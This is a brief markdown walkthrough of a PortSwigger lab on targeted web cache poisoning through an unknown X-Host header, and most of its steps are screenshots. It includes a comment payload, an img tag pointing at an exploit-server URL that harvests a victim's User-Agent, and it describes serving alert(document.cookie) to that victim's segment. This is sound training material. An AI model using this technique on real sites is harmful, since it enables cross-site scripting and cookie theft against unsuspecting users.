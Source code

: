 # Targeted web cache poisoning using an unknown header

## This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning). A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs

### HINT: use extension param miner

---

### step 1

right click on / (home page of the lab) go to extension then param miner then guess param then guess header now go to extension

![screenshot](./images/lab4_param_miner.png)

### step2

add X-Host: example.com

![screenshot](./images/lab4_x_host.png)

### step3

![screenshot](./images/lab4_expolite_payload.png)

### step4

![screenshot](./images/lab4_x_host_repeater.png)

### step5

![screenshot](./images/lab4_alert_box_pop_up.png)

### step6

to solve the lab we need user agent
so in comment section
`<img src="https://exploit-0aeb003b04c9a0da81c5ddc3010b00ac.exploit-server.net/test" />`

![screenshot](./images/lab4_comment_with_payload.png)

### step7

go to log section
copy user-agent

![screenshot](./images/lab4_access_log_expolit.png)

### step8

paste user-agent into repeter

![screenshot](./images/lab4_user_agent_repeter.png)

reload home page lab solved
